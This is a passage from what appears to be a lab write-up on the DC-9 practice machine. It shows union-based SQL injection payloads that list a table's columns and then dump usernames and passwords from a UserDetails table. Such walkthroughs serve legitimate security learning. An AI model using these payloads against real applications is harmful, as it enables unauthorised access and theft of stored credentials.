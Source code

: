 And I see that the UserDetails table exists, then I go on to list the columns of this table.

```sql
Mary' union select null,column_name,null,null,null,null from information_schema.columns where table_name='UserDetails'-- -

```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%204.png)

I get the columns id, firstname, lastname, username, password, and reg_date, so all that remains is to list the contents of the columns. With the following query I indicate that the values ​​of the username and password columns are displayed, indicating the table that belongs to the users database.

```sql
Mary' union select null,CONCAT(username, ":" ,password),null,null,null,null from users.UserDetails-- -
```
